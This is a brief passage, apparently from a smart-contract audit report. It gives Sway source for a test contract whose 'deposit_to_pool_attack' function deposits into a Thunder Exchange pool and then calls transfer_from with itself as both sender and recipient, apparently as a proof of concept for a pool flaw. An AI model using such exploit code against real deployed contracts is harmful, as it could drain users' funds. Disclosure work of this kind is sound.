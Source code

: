 - Add the below in the `main.sw`:
```rs
contract;

use std::{
    address::Address,
    auth::*,
    call_frames::*,
    constants::*,
    context::*,
    contract_id::ContractId,
    hash::Hash,
    logging::log,
    identity::Identity,
    revert::*,
    asset::*,
    storage::storage_map::*,
};

use interfaces::{
    asset_manager_interface::*,
    pool_interface::*,
    test_user_interface::*,
    thunder_exchange_interface::{ThunderExchange},
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
};

storage {
    /// Pool contractId
    pool: Option<ContractId> = Option::None,
}

impl TestUser for Contract {
    #[storage(read, write)]
    fn initialize(pool: ContractId) {
        storage.pool.write(Option::Some(pool));
    }

    #[storage(read)]
    fn deposit_to_pool_attack(asset: AssetId, amount: u64) {
        let pool_addr = storage.pool.read().unwrap().bits();
        let pool = abi(Pool, pool_addr);
        let self_identity = Identity::ContractId(ContractId::this());

        pool.deposit{ asset_id: asset.bits(), coins: amount }();
        pool.transfer_from(self_identity, self_identity, asset, 1000);
    }
}
```
